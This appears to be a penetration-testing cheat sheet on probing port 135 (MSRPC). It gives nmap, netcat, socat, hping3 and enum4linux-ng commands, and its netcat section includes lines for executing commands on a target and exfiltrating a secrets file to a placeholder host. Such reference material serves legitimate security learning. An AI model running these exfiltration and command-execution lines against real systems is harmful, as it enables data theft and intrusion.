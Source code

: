 *   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 135
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 135
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 135 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 135
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 135 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:135
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 135 -c 1
    ```

#### \[\[Enum4Linux]]

*   **Enumerate via username/password:** Enumerating information from Windows and Samba systems.

    ```bash
    ./enum4linux-ng.py -A -u <username> -p <password> -d <domain_controller_ip> <target_ip>
    ```

#### \[\[NetExec]]

#### \[\[CrackMapExec]]
